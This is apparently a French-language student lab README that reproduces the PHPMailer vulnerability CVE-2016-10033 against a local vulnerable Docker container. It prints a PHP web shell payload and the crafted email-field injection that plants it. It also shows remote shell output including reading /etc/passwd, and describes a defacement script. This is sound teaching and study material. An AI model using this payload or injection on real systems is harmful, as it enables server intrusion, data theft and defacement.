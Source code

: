 # Ensimag-ssi-2019-2020

## Getting Started
```
$ git clone "https://github.com/elhouti/ensimag-ssi-2019-20.git" && \
cd ensimag-ssi-2019-20
```

## Reproduire la vulnérabilité 

Étape  1: Tout d'abord on va utiliser une image docker qui permet de lancer une application web contenant un formulaire d'envoie de mails avec la librairie PHPMailer(voir index.php) sur un container.
Si jamais vous ne disposez pas de docker sur votre machine (le cas des machines de l'école), [Install Docker on Linux](https://runnable.com/docker/install-docker-on-linux).
```
$ docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033 &
```
Lorsque l'image soit lancé sur le conteneur docker, visiter localhost:8080

![](index.png)

Étape 2: Lancement du script "exploit.sh", ce dernier injecte le malicious code ``` <?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>``` dans le serveur distant (dans notre cas ça sera "localhost:8080", puisque l'application est exécuté sur un container docker locale) sous la forme d'un fichier php que nous avons l'appelé "backdoor.php" en exploitant La faille de PHPMailer qui ne vérifier pas les données envoyées par l'utilisateur à travers le formulaire avant l'exécution, et par conséquent il va nous donner la possibilité d'éxécuter des commandes à distance à travers le script injecté (Remot shell).
```
$ bash exploit.sh localhost:8080
```
output: (ls, ls vulnerable, pwd, cat /etc/passwd sont exécuté sur le seveur distant)
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Cible exploitée, accès au shell sur http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Vous avez la main pour saisir Les commandes à exécuter sur le serveur distant ...
[+] (tappez exit pour sortir du shell)
www-data
RemoteShell> ls
vulnerable
RemoteShell> ls vulnerable
travis.phpunit.xml.dist
RemoteShell> pwd
/www
RemoteShell> cat /etc/passwd
smmsp:x:105:108:Mail
RemoteShell> exit
[+] Sortie
```
En fait, ce script utilise implicitement le formulaire, et donc pour reproduire la meme chose manuellement avec le formulaire on remplissant les champs de formulaire par les données suivant:
avec Your Email : ```"vulnerables\" -OQueueDirectory=/tmp -X/www/backdoor.php server" @test.com```

![](manuelle1.png)


Étape3: C'est intéressant, mais pour tester quelque chose de plus concrète, lancant le script "second_use_case.sh" qui exécute une commande sur le shell distant qui permet d'écraser le contenu du ficher "index.php" par une page noire contant le mot "defaced".
```
$ bash concret_example.sh localhost:8080
```
output 
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Target exploited, acessing shell at http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Términé avec succès ...
```

résultat

![](ssi.png)

